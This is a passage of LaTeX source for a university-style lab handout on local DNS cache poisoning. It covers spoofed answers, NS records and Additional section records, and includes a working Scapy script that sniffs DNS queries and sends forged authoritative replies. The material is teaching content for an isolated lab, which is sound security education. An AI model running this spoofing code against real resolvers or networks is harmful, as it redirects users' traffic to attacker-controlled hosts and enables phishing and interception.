You can keep the \texttt{tc} entry on for this entire lab, because 
all the tasks will face a similar situation. 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: DNS Cache Poisoning Attack -- Spoofing Answers}

The above attack targets the user's machine. In order to achieve long-lasting
effect, every time the user's machine sends out a DNS query for
\url{www.example.com}
the attacker's machine must send out a spoofed DNS response. 
This might not be so efficient; there is a much better way to conduct attacks 
by targeting the DNS server, instead of the user's machine.


When a local DNS server receives a query, 
it first looks 
for the answer from its own cache; if the answer is there, 
the DNS server will simply reply with the information from its cache. 
If the answer is not in the cache, the DNS server will 
try to get the answer from other DNS servers. When it gets the 
answer, it will store the answer in the cache, so next time, 
there is no need to ask other DNS servers. See Figure~\ref{dns:fig:local_attack}. 

Therefore, if attackers can spoof the response from other DNS 
servers, the local DNS server will keep the spoofed response in its cache for 
certain period of time. Next time, when a user's machine wants to resolve the 
same host name, it will get the spoofed response from the cache. 
This way, attackers only need to spoof once, and 
the impact will last until the cached information expires. 
This attack is called {\em DNS cache poisoning}.  


Please modify the program used in the previous task for this attack. 
Before attacking, 
make sure that the DNS Server's cache is empty. 
You can flush the cache using the following command:

\begin{lstlisting}
# rndc flush
\end{lstlisting}

You can inspect the cache on the local DNS server to
see whether it is poisoned or not. The following commands
first dump the cache into a file, and then
display the content of the cache file. 

\begin{lstlisting}
# rndc dumpdb -cache
# cat /var/cache/bind/dump.db
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: Spoofing NS Records}

In the previous task, our DNS cache poisoning attack only affects 
one hostname, i.e., \url{www.example.com}. If users try to get the IP
address of another hostname, such as \url{mail.example.com}, we 
need to launch the attack again. It will be more efficient if we launch one
attack that can affect the entire \texttt{example.com} domain.  

The idea is to use the Authority section in DNS replies. 
Basically, when we spoofed a reply, in addition to spoofing the answer (in
the Answer section), we add the following in the Authority section.
When this entry is cached by the local DNS server, \url{ns.attacker32.com}
will be used as the nameserver for future queries of 
any hostname in the \texttt{example.com} domain.  Since 
\url{ns.attacker32.com} is controlled by attackers, it can
provide a forged answer for any query. The IP address 
of this machine is \texttt{10.9.0.153} in our setup. 

\begin{lstlisting}
;; AUTHORITY SECTION:
example.com.            259200  IN      NS       ns.attacker32.com.
\end{lstlisting}
 

Please add a spoofed NS record in your attack code, and launch the 
attack. Section~\ref{sec:guideline} has an example showing how to
include an NS record in a DNS response packet. 
Detailed guidelines are provided in the SEED book.
Before doing the attack, please remember to clear the cache on 
the local DNS server first.
If your attack is successful, when you run the \texttt{dig} command 
on the user machine for any hostname in the \url{example.com} domain, you will
get the fake IP address provided by \texttt{ns.attacker32.com}. Please also
check the cache on the local DNS server and see whether the spoofed 
NS record is in the cache or not.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Spoofing NS Records for Another Domain} 

In the previous attack, we successfully poison the cache of the local DNS
server, so \texttt{ns.attacker32.com} becomes the nameserver for the 
\texttt{example.com} domain. Inspired by this success, we would like to 
extend its impact to other domain. Namely, 
in the spoofed response triggered by a query for
\url{www.example.com}, we would like to add additional entry
in the Authority section (see the following), so
\url{ns.attacker32.com} is also used as the nameserver for 
\texttt{google.com}.  


\begin{lstlisting}
;; AUTHORITY SECTION:
example.com.            259200  IN      NS   ns.attacker32.com.
google.com.             259200  IN      NS   ns.attacker32.com.
\end{lstlisting}

Please modify your attack code slightly to launch 
the above attack on your local DNS server. After the 
attack, check the DNS cache and see which record is cached.
Please describe and explain your observation. It should be noted that the query
that we are attacking is still the query to \texttt{example.com}, not one
to \texttt{google.com}.  


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Spoofing Records in the Additional Section}

In DNS replies, there is section called Additional Section, which is used
to provide additional information. In practice, it is mainly used to
provide IP addresses for some hostnames, especially for those appearing in the
Authority section. The goal of this task is to spoof some entries 
in this section and see whether they will be successfully cached by the
target local DNS server. In particular, when responding to 
the query for \texttt{www.example.com}, we add the following entries 
in the spoofed reply, in addition to the entries in the Answer section:


\begin{lstlisting}
;; AUTHORITY SECTION:
example.com.            259200  IN   NS   ns.attacker32.com.
example.com.            259200  IN   NS   ns.example.com.

;; ADDITIONAL SECTION:
ns.attacker32.com.      259200  IN   A    1.2.3.4   (*@\ding{192}@*)
ns.example.net.         259200  IN   A    5.6.7.8   (*@\ding{193}@*)
www.facebook.com.       259200  IN   A    3.4.5.6   (*@\ding{194}@*)
\end{lstlisting}

Entries \ding{192} and \ding{193} are related to the hostnames in
the Authority section. Entry \ding{194} is completely irrelevant to
any entry in the reply, but it provides a ``gracious'' help to
users, so they do not need to look up for the IP address
of Facebook. Please use Scapy to spoof such a DNS reply. Your job is
to report what entries will be successfully cached, and what entries will
not be cached; please explain why. 
 

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{What's Next}


In the DNS cache poisoning attack of this lab, 
we assume that the attacker and the DNS server are on
the same LAN, i.e., the attacker can observe the DNS query message.
When the attacker and the DNS server are not on the same LAN,
the cache poisoning attack becomes much more challenging. If you
are interested in taking on such a challenge, you can 
try our ``Remote DNS Attack Lab''.




% *******************************************
% SECTION
% ******************************************* 
\section{Guideline}
\label{sec:guideline}


You need to use Scapy for several tasks in this lab. The following sample code shows how to
sniff a DNS query and then spoof a DNS reply, which contains 
a record in the Answer section, two records in the Authority section and two
records in the Additional section. The code is already included 
in the \texttt{Labsetup.zip} file (inside the \texttt{volumes} folder).  


\begin{lstlisting}[caption={Sample code: \texttt{dns\_sniff\_spoof.py}}]
#!/usr/bin/env python3
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname.decode('utf-8')):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,  (*@\ding{81}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
f = 'udp and dst port 53'
pkt = sniff(iface='br-43d947d991eb', filter=f, prn=spoof_dns)       (*@\ding{73}@*)    
\end{lstlisting}
 
Please make sure replace the interface name in Line~\ding{73} with
the one in your system.
Line~\ding{81} constructs the DNS payload, including DNS header and data. Each field 
of the DNS payload is explained in the following:

 
\begin{itemize}[noitemsep]
\item \texttt{id}: Transaction ID; should be the same as that in the request.
\item \texttt{qd}: Query Domain; should be the same as that in the Request.
\item \texttt{aa}: Authoritative answer (1 means that the answer contains Authoritative answer).
\item \texttt{rd}: Recursion Desired (0 means to disable Recursive queries).
\item \texttt{qr}: Query Response bit (1 means Response).
\item \texttt{qdcount}: number of query domains. 
\item \texttt{ancount}: number of records in the Answer section.
\item \texttt{nscount}: number of records in the Authority section. 
\item \texttt{arcount}: number of records in the Additional section. 
\item \texttt{an}: Answer section 
\item \texttt{ns}: Authority section
\item \texttt{ar}: Additional section
\end{itemize}
  



% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\end{document}
